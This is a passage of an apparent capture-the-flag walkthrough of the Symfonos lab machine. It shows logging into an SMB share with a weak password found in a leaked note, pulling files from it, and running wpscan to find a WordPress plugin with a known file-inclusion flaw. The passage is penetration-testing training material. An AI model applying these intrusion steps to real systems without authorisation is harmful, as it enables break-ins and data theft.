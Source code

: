 * Futhermore, we found passwords like `epidioko`, `qwerty` and `baseball` in `attention.txt`.
```
$ cat attention.txt

Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! 

Next person I find using one of these passwords will be fired!

-Zeus
```
#### helios
* We used `qwerty` as the password and `helios` as the username to connect to `//192.168.109.131/helios`.
* Then, we found `research.txt` and `todo.txt`.
```
$ smbclient //192.168.109.131/helios -U helios qwerty
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun 28 20:32:05 2019
  ..                                  D        0  Fri Jun 28 20:37:04 2019
  research.txt                        A      432  Fri Jun 28 20:32:05 2019
  todo.txt                            A       52  Fri Jun 28 20:32:05 2019

                19994224 blocks of size 1024. 17301976 blocks available
smb: \> get research.txt
getting file \research.txt of size 432 as research.txt (105.5 KiloBytes/sec) (average 105.5 KiloBytes/sec)
smb: \> get todo.txt
getting file \todo.txt of size 52 as todo.txt (16.9 KiloBytes/sec) (average 67.5 KiloBytes/sec)
smb: \> 
```
* Besides, we found a path like `/h3l105` in `todo.txt`.
```
$ cat research.txt
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
                                                                
$ cat todo.txt
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
### chrome
* We checked `http://192.168.109.131/h3l105/` by the browser.
* However, we found there were some errors like `ERR_NAME_NOT_RESOLVED`.
* Therefore, we should add `symfonos.local` as the domain name to `/etc/host`.
```
http://192.168.109.131/h3l105/
```
![](https://i.imgur.com/BtXLnPO.png)
```
192.168.109.131  symfonos.local
```
### wpscan
* After scanning, we found there was a `mail-masta Version: 1.0` plugin.
* Besides, we found there was a [WordPress Plugin Mail Masta 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/40290) vulnerability.
```
$ wpscan -e u,p --url http://symfonos.local/h3l105 --no-update 
_______________________________________________________________
```